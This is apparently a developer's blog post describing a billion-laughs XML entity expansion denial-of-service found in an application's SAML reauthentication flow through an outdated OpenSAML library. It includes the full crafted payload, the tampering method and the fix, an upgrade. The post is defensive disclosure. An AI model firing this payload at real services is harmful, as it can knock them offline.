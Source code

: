 ```yaml
---
title: "Laughing out loud - Malicious Reauthentication"
date: 2018-06-04T10:02:51+01:00
category: ["security"]
---
```


![Laughing out loud](/images/laughing_out_loud_malicious_auth_title.png)

# Background

I had found a vulnerability that made it is possible to insert maliciously crafted XML into the SAML payload that a reauthentication application returned to perform a Denial of Service (DoS) attack. The vulnerability came about due to the use of a out-of-date but still widely used library.

The service could have been made to consume a lot of CPU and memory causing it respond very slowly if at all. Health checks and automatic service restarts would have healed the service but it still would have allowed an attacker to mount a sustained Denial of Service attack without needing a lot of requests.

This post describes the vulnerability found in the opensaml-1.1 which was used to reauthenticate request. In this instance the reauthentication between apps worked by sending a payload to the reauthentication app, which then revalidated username/password and then returned the payload as a SAML assertion. This would be sent to the browser and POSTed back to the originating app.

The underlying SAML assertion would look something like that:

```xml
<Assertion xmlns="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:saml="urn:oasis:names:tc:SAML:1.0:assertion"
           xmlns:samlp="urn:oasis:names:tc:SAML:1.0:protocol" xmlns:xsd="http://www.w3.org/2001/XMLSchema"
           xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" AssertionID="_799fe6f5d865e965f751fb7b5f490530"
           IssueInstant="2018-03-29T13:13:46.244Z" Issuer="redacted.com" MajorVersion="1" MinorVersion="1">
    <Conditions NotBefore="2018-03-29T13:13:46.244Z" NotOnOrAfter="2018-03-29T13:24:46.244Z"></Conditions>
    <AuthenticationStatement AuthenticationInstant="2018-03-29T13:13:46.244Z" AuthenticationMethod="urn:oasis:names:tc:SAML:1.0:am:unspecified">
        <Subject>
            <NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier>
        </Subject>
    </AuthenticationStatement>
    <AttributeStatement>
        <Subject>
            <NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier>
        </Subject>
        <Attribute AttributeName="sspayload" AttributeNamespace="http://redacted.com">
            <AttributeValue>lHJfAvtsbKuRoknWbaiqTXiP0HUPIk6Iu/JwM5pgsEo=</AttributeValue>
        </Attribute>
        <Attribute AttributeName="payload" AttributeNamespace="http://redacted.com">
            <AttributeValue>iXNKzPtGTrm...sgl7SDiyanNbt6LwIpePh</AttributeValue>
        </Attribute>
    </AttributeStatement>
    <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
        <ds:SignedInfo>
            <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"></ds:CanonicalizationMethod>
            <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#hmac-sha1"></ds:SignatureMethod>
            <ds:Reference URI="#_799fe6f5d865e965f751fb7b5f490530">
                <ds:Transforms>
                    <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"></ds:Transform>
                    <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#">
                        <ec:InclusiveNamespaces xmlns:ec="http://www.w3.org/2001/10/xml-exc-c14n#" PrefixList="code ds kind rw saml samlp typens #default xsd xsi"></ec:InclusiveNamespaces>
                    </ds:Transform>
                </ds:Transforms>
                <ds:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1"></ds:DigestMethod>
                <ds:DigestValue>NObH8OXaRhbv/cIRBNes0Jc5m3c=</ds:DigestValue>
            </ds:Reference>
        </ds:SignedInfo>
        <ds:SignatureValue>89GMiWLrEWThzKpzeDjnCKjs1hI=</ds:SignatureValue>
    </ds:Signature>
</Assertion>
```

so far so good - the XML is protected against tampering by a signature and the payload is encrypted...

# Identifying a Problem

I ran the OWASP dependency checker against the dependencies

```shell script
$ mvn org.owasp:dependency-check-maven:3.1.1:check
```

and found the following vulnerability

```shell script
Published Vulnerabilities
CVE-2013-6440  suppress
Severity: Medium
CVSS Score: 5.0 (AV:N/AC:L/Au:N/C:P/I:N/A:N)
CWE: CWE-200 Information Exposure
The (1) BasicParserPool, (2) StaticBasicParserPool, (3) XML Decrypter, and (4) SAML Decrypter in Shibboleth OpenSAML-Java before 2.6.1 set the expandEntityReferences property to true, which allows remote attackers to conduct XML external entity (XXE) attacks via a crafted XML DOCTYPE declaration.
```

This led me to perform experiments trying to exploit XXE - considering the XML is passed through the browser (so an attacker can modify the XML)

# The Attack

I used [Charles proxy](https://www.charlesproxy.com) to set a breakpoint on the URL POSTing (I was testing this locally) and I modified the payload before it was POSTed back to the app that initiated the reauthentication

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
        <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
        <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
        <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
        <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
        <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<Assertion xmlns="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:saml="urn:oasis:names:tc:SAML:1.0:assertion" xmlns:samlp="urn:oasis:names:tc:SAML:1.0:protocol" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" AssertionID="_ff91848d70cc3eb916a2d0549bb2e11a" IssueInstant="2018-03-29T14:32:38.564Z" Issuer="redacted.com" MajorVersion="1" MinorVersion="1"><Conditions NotBefore="2018-03-29T14:32:38.564Z" NotOnOrAfter="2018-03-29T14:43:38.564Z"></Conditions><AuthenticationStatement AuthenticationInstant="2018-03-29T14:32:38.564Z" AuthenticationMethod="urn:oasis:names:tc:SAML:1.0:am:unspecified"><Subject><NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier></Subject></AuthenticationStatement><AttributeStatement><Subject><NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified" NameQualifier="SubjectNameQualifier">SubjectName</NameIdentifier></Subject><Attribute AttributeName="sspayload" AttributeNamespace="http://redacted.com"><AttributeValue>NeGxMf9WPEcFqN7J7mfmW0G0pBOUO5nvhXj71WqxeuE=</AttributeValue></Attribute><Attribute AttributeName="payload" AttributeNamespace="http://redacted.com"><AttributeValue>iXNKzPtGTrmBZ/...A4tKERF1nFJRJE5DSqnJZc4wd1QU3C5S</AttributeValue></Attribute></AttributeStatement><ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
    <ds:SignedInfo>
        <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#">&lol9;</ds:CanonicalizationMethod>
        <ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#hmac-sha1"></ds:SignatureMethod>
        <ds:Reference URI="#_ff91848d70cc3eb916a2d0549bb2e11a">
            <ds:Transforms>
                <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"></ds:Transform>
                <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"><ec:InclusiveNamespaces xmlns:ec="http://www.w3.org/2001/10/xml-exc-c14n#" PrefixList="code ds kind rw saml samlp typens #default xsd xsi"></ec:InclusiveNamespaces></ds:Transform>
            </ds:Transforms>
            <ds:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1"></ds:DigestMethod>
            <ds:DigestValue>NObH8OXaRhbv/cIRBNes0Jc5m3c=</ds:DigestValue>
        </ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>89GMiWLrEWThzKpzeDjnCKjs1hI=</ds:SignatureValue>
</ds:Signature></Assertion>
```

The embedded doctype and the LOL entities that result in the XML processor processing a LOT of "lol" ENTITIES - hence the name billion laugh attack.

Here is what it did to my local JVM:

![](/images/laughing_out_loud_malicious_auth_stats.png)

 and that is just a single request.

# Mitigation

I rewrote the code to use OpenSAML 3.3 which is not vulnerable. Unfortunately, as the API for OpenSAML changed significantly that wasn't just a matter of changing dependencies but rewriting the SAML generation code from scratch...

# Moral of the Story

*   Do not use outdated libs
*   Do run the OWASP checker
*   XML is evil

